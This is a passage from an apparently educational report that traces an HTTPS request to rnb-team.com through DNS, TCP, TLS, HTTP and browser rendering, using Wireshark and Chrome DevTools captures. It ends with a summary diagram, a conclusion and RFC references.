- `Content-Type: text/html` means that the browser received an HTML document;
- `Content-Encoding: zstd` means that the browser decompresses the body before parsing;
- `Status Code: 200 OK` confirms successful processing.

I do not specify a particular origin server IP address or internal database because they are not present in the screenshots.

## 13. Loading Resources and Forming the Page

After receiving the main HTML, the browser analyzes the document and finds links to additional resources.


*Figure 19 — List of the page's network resources: document, fonts, CSS, JavaScript, and images.*

Key DevTools columns:

- **Name** — the resource name or URL;
- **Status** — HTTP status, mainly `200` in the frame;
- **Type** — resource type: `document`, `font`, `stylesheet`, `script`, `avif`;
- **Initiator** — the document or script that initiated the load;
- **Size** — amount of transferred data;
- **Time** — duration of the specific request;
- **Waterfall** — start time and duration of requests relative to other resources.

Summary of the capture in DevTools:

```text
63 requests
908 kB transferred
2.1 MB resources
DOMContentLoaded: 445 ms
Load: 819 ms
Finish: 53.29 s
```

These values do not mean that the user saw a blank screen for 53 seconds. `DOMContentLoaded` fired after the initial DOM was built, `Load` after the main dependent resources were loaded, and `Finish` also includes late or asynchronous requests.

After receiving the resources, the browser:

1. decodes and parses HTML;
2. creates the DOM;
3. loads and parses CSS, forming the CSSOM;
4. loads and executes JavaScript;
5. decodes fonts and images;
6. combines the DOM and styles into the render tree;
7. calculates the sizes and positions of elements;
8. performs paint and compositing;
9. displays the completed page.

## 14. Movement of the Response in the Reverse Direction

The response passes through the same layers in the reverse direction:

```text
server HTTP response
→ TLS encryption
→ TCP segments
→ IP packets
→ frames of the current link
→ router and NAT
→ client network adapter
→ decapsulation in the OS
→ browser
```

TCP uses sequence and acknowledgment numbers to restore the correct byte order. If a segment is not acknowledged, it may be retransmitted. TLS verifies integrity and decrypts the received records. The HTTP layer interprets the status, headers, and response body.

On the local network, the corresponding Ethernet frame arrives from the router's MAC address to the computer's MAC address. The source IP address is the remote service address, while the destination IP after reverse NAT becomes `192.168.0.150`.

## 15. What Is and Is Not Visible in Wireshark

Wireshark made it possible to see:

- the DNS name and A records;
- local and remote IP addresses;
- the MAC addresses of the client and gateway;
- source and destination TCP ports;
- SYN, SYN/ACK, ACK;
- sequence, acknowledgment, window, MSS, and TCP options;
- TLS Client Hello and Server Hello;
- the TLS version and selected cipher suite;
- frame, packet, and TCP payload sizes;
- transmission direction and time.

Because of TLS, without additional session keys, Wireshark does not show in plaintext:

- the HTTP path and most HTTP headers;
- the response HTML code;
- cookies and application data;
- most of the TLS 1.3 handshake after Server Hello.

Therefore, the HTTP request and response headers were verified through Chrome DevTools, where the browser shows the data after its own TLS decryption.

## 16. Practical Security Significance

Understanding this chain helps localize a problem by layer:

- DNS error — the domain does not resolve to the correct IP address;
- routing problem — IP packets do not reach the required network;
- closed TCP port or firewall — the TCP handshake does not complete;
- TLS problem — the browser does not trust the certificate or the parties do not negotiate parameters;
- HTTP error — the server returns 4xx or 5xx;
- frontend problem — HTML was received, but CSS, JavaScript, or API requests work incorrectly.

From a security perspective:

- TLS makes it more difficult to read and modify HTTP content in transit;
- certificate verification protects against connection to an impostor server;
- DNS without additional protection can be a target for spoofing;
- a firewall controls IP addresses, protocols, and ports;
- CSP and frame-related headers reduce the risk of some web attacks;
- analysis of DNS, TCP, and TLS in Wireshark helps distinguish a network malfunction from a web application problem.

## 17. Final Diagram

```text
1. I entered https://rnb-team.com and pressed Enter.
2. The browser parsed the URL: HTTPS, domain rnb-team.com, path /, port 443.
3. After clearing the cache, client 192.168.0.150 queried DNS server 192.168.0.1.
4. DNS returned 104.21.89.4 and 172.67.155.54 with a TTL of 300 seconds.
5. Because the address is not local, the Ethernet frame was sent to the gateway's MAC address.
6. The router performed routing and NAT toward the Internet.
7. TCP SYN → SYN/ACK → ACK was performed with 172.67.155.54:443.
8. TLS Client Hello and Server Hello negotiated TLS 1.3 and encryption parameters.
9. Inside TLS, the browser sent HTTP GET /.
10. The service processed the request and returned 200 OK, HTML, and response headers.
11. The browser loaded CSS, JavaScript, fonts, and images.
12. After DOM, CSSOM, layout, and paint, the page appeared in the browser window.
```

## 18. Conclusion

In this work, I traced the complete path of a request to `https://rnb-team.com` from the local computer to the web service. DNS translated the domain into two IPv4 addresses. The browser then established a TCP connection to port 443, performed the TLS handshake, and transmitted an encrypted HTTP GET. The server returned `200 OK`, an HTML document, and a set of HTTP headers, after which the browser additionally loaded styles, scripts, fonts, and images.

The capture also demonstrated encapsulation in practice: TLS data was located inside TCP segments, TCP inside IPv4, and IPv4 inside Ethernet frames. From the headers, it is possible to determine the traffic direction, addresses, ports, TCP connection state, TTL limit, segment sizes, TLS version, and some protection parameters, but the HTTP content remains encrypted.

## 19. Sources Used

1. [RFC 1035 — Domain Names: Implementation and Specification](https://www.rfc-editor.org/rfc/rfc1035)
2. [RFC 9293 — Transmission Control Protocol (TCP)](https://www.rfc-editor.org/rfc/rfc9293)
3. [RFC 791 — Internet Protocol](https://www.rfc-editor.org/rfc/rfc791)
4. [RFC 8446 — The Transport Layer Security (TLS) Protocol Version 1.3](https://www.rfc-editor.org/rfc/rfc8446)
5. [RFC 9110 — HTTP Semantics](https://www.rfc-editor.org/rfc/rfc9110)
6. [Wireshark User’s Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
